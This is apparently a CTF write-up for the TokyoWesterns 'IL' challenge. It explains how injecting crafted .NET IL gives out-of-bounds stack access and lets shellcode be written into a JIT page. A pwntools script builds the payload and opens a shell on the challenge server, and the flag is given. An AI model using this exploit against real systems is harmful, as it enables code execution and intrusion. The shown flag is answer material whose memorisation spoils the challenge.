 # IL

For this task, we get a zip-file with a binary and multiple DLL's. The binary just seems to invoke `il.dll`, which does the following:

```c#
private static void Main(string[] args)
{
	try
	{
		Console.WriteLine("send me your spell:");
		Console.Out.Flush();
		byte[] array = Convert.FromBase64String(Console.ReadLine().Trim());
		if (array.Length > 2035)
		{
			Console.WriteLine("hey your spell is way too long!");
			Console.Out.Flush();
		}
		else
		{
			Console.WriteLine("okay, let's see what happens...");
			Console.Out.Flush();
			using (MemoryStream memoryStream = new MemoryStream(File.ReadAllBytes(Path.Join(Path.GetDirectoryName(Process.GetCurrentProcess().MainModule.FileName), "ilstub.dll"))))
			{
				memoryStream.Seek(604L, SeekOrigin.Begin);
				memoryStream.Write(array, 0, array.Length);
				memoryStream.Write(new byte[2035 - array.Length], 0, 2035 - array.Length);
				memoryStream.WriteByte(42);
				MethodInfo method = Assembly.Load(memoryStream.ToArray()).GetType("ILStub.Stub").GetMethod("Func", BindingFlags.Static | BindingFlags.Public);
				Console.WriteLine("result=0x{0:x}", method.Invoke(null, new object[]
				{
					4919UL
				}));
				Console.Out.Flush();
			}
			Console.WriteLine("well done! see you next time!");
			Console.Out.Flush();
		}
	}
	catch (Exception ex)
	{
		Console.WriteLine("sorry but something went wrong...");
		Console.WriteLine(ex.ToString());
		Console.Out.Flush();
	}
}

```

It reads `ilstub.dll`, replaces a part of it with whatever it receives on stdin, and then calls a function. As it turns out, the place where it starts writing into the binary is at the start of that function:

```c#
public static ulong Func(ulong arg)
{
	arg ^= 1UL;
	arg ^= 1UL;
    // ...
	arg ^= 1UL;
	return arg;
}
```

This means we can supply abritrary dotnet IL, which then directly gets executed by the program. In order to exploit this, we modified the bytecode of `Func` using dnSpy in the following way:

```c#
public unsafe static ulong Func(ulong arg)
{
	arg ^= 1UL;
	arg ^= 1UL;

    // preamble
	long num = *(stackalloc byte[16] + 1094795585 /* 0x41414141 */);
    
    // write primitive
	*num = 4774451407313060418L /* 0x4242424242424242 */;
	long num2 = num + 8L;

	arg ^= 1UL;
	arg ^= 1UL;
    //...
  	arg ^= 1UL;
	return arg;
}
```

This uses a stack-allocated array to achieve an out-of-bound read on the stack (adding the offset `0x41414141` to wherever the array is on the stack). We use this to get the return address of the function, which will point into an rwx page since dotnet IL gets JIT-compiled. We then use the write primitive over and over again to write an x86-64 shellcode at that return address, which will then get executed after `Func` returns.

For this, we use the following python script to read this function from our modified `ilstub.dll`, replace the `0x41414141` with the correct offset and then repeat the write primitive for every 8-byte chunk of the shellcode where we replace the `0x4242424242424242`:

```python
from pwn import *
from base64 import b64encode

context.arch = 'amd64'

with open('ilstub-cpy.dll', 'rb') as f:
    func = f.read()[612: 612 + 0x2B]

preamble = func[0: 0x1E].replace(b'\x41' * 8, p64(32))
write_primitive = func[0x1E:]

shellcode = group(8, asm(shellcraft.amd64.linux.sh()))

exploit = preamble[:]
for block in shellcode:
    exploit += write_primitive.replace(b'\x42' * 8, bytes(block).ljust(8, b'\x90'))

if args.REMOTE:
    p = remote('pwn02.chal.ctf.westerns.tokyo', 23541)
else:
    p = process('./il')
p.sendlineafter(b'spell:\n', b64encode(exploit))
p.interactive()

```

We use a shellcode that will just pop a shell. After getting the shell, it's just a matter of `cat`ing `flag.txt`: 
`TWCTF{0n3_brINgS_5h4d0W_0nE_BRIng5_LighT}`